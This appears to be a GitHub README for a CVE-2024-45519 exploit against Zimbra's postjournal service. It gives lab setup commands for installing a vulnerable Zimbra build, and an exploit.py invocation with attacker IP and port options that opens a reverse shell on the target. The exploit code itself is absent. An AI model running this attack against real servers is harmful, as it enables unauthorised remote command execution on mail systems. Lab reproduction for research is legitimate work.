 # CVE-2024-45519 - Zimbra Postjournal Exploit Setup 🛠️

![](img/zimbra_rce.png)

## Description ⚠️
CVE-2024-45519 is a vulnerability in Zimbra Collaboration (ZCS) that allows unauthenticated users to execute commands through the `postjournal` service. This guide walks you through setting up a lab environment to reproduce the issue and execute the exploit.

## Affected Versions 🐛
- **Joule**: version 8.8.15  
- **Kepler**: version 9.0.0  
- **Daffodil**: versions 10.0.x before 10.0.9  
- **Daffodil**: version 10.1.0  

## Lab Setup 🖥️

1. **Prepare the test environment**  
   Make sure you're running Ubuntu 20.04.6 LTS (Focal Fossa) on your lab machine.  
   Example test environment: Ubuntu 20.04.6 LTS.

2. **Download Zimbra**  
   Run the following commands to download and extract the Zimbra Collaboration package:
   ```bash
   sudo su
   wget https://files.zimbra.com/downloads/8.8.15_GA/zcs-NETWORK-8.8.15_GA_4177.UBUNTU20_64.20211112014220.tgz
   tar -xvzf zcs-NETWORK-8.8.15_GA_4177.UBUNTU20_64.20211112014220.tgz
   cd zcs-NETWORK-8.8.15_GA_4177.UBUNTU20_64.20211112014220
   ```

3. **Configure hostname**  
   Set the hostname to `zimbra.labo`:
   ```bash
   hostnamectl set-hostname zimbra.labo
   ```

4. **Install Zimbra**  
   Follow the installation guide here 👉 [Zimbra Installation Guide](https://zimbra.github.io/installguides/latest/single.html#Installing_Zimbra_Collaboration_Software).  
   Use Zimbra's package repository when prompted. Select **Yes** for that option.

5. **Replace the vulnerable `postjournal` binary**  
   Kill the running `postjournal` process and replace the binary with the vulnerable one:
   ```bash
   sudo pkill postjournal
   dpkg-deb -x packages/zimbra-core_8.8.15.GA.4177.UBUNTU20.64_amd64.deb /tmp/zimbra-core
   sudo cp /tmp/zimbra-core/opt/zimbra/libexec/postjournal /opt/zimbra/libexec/postjournal
   ```

6. **Enable and restart Zimbra services**  
   Log in as the `zimbra` user and enable the `postjournal` service:
   ```bash
   sudo su - zimbra
   zmlocalconfig -e postjournal_enabled=true
   zmcontrol restart
   ```

## Exploit Usage 🚀

Once the lab is set up and running, you can use the exploit to take advantage of the vulnerability.

### Steps:

1. **Prepare the exploit**  
   Ensure the exploit script (which we assume you've already prepared) targets the correct IP address and port.

2. **Run the exploit**  
   Execute the exploit to target the vulnerable Zimbra instance. For example, using your script:
   ```bash
   python exploit.py <target> -lh <attacker-ip> -lp <attacker-port> -p <smtp-port>
   ```

3. **Enjoy your shell**  
   Once the exploit successfully connects, you'll have command execution on the Zimbra server! 🎉

## References 🔗
- [Zimbra CVE-2024-45519 - Cyberveille eSante](https://cyberveille.esante.gouv.fr/alertes/zimbra-cve-2024-45519-2024-10-02)  
- [Zimbra Remote Code Execution Blog - ProjectDiscovery](https://blog.projectdiscovery.io/zimbra-remote-code-execution/)  


## Disclaimer ⚠️

This exploit and guide are for educational purposes only. Use this information responsibly and only on systems you have explicit permission to test. Unauthorized exploitation of systems is illegal and unethical. The authors and contributors are not responsible for any misuse or damage caused by this information.

